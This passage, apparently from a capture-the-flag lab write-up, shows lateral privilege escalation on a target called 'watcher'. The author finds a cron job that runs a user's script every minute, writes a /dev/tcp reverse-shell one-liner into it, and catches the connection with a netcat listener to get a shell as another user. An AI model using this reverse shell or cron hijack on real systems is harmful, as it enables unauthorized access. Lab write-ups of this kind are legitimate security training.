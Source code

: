 ```
toby@watcher:/etc$ cat crontab
cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```

### 3.2. Lateral PrivEsc (again): Mat
We put a revshell command and ... we wait!
```
toby@watcher:~/jobs$ cat cow.sh
cat cow.sh
sh -i >& /dev/tcp/10.17.8.184/1234 0>&1
```

Listening.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234         
listening on [any] 1234 ...
connect to [10.17.8.184] from (UNKNOWN) [10.10.157.202] 55854
sh: 0: can't access tty; job control turned off
$ whoami
mat
```

We are in! Let's explore.

```
mat@watcher:~$ cat note.txt
cat note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```
